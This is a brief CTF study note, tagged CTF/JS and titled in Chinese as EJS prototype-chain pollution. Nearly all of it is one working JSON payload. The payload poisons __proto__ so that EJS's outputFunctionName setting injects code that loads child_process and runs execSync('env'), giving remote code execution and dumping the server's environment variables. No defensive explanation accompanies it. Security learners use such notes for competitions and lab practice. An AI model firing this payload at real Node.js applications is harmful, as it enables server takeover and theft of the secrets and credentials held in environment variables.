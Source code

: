 tags:: CTF/JS

- EJS原型链污染
- payload:
	- ```json
	  {"__proto__":{"__proto__":{"outputFunctionName":"__tmp1; return global.process.mainModule.constructor._load('child_process').execSync('env'); __tmp2"}}}
	  ```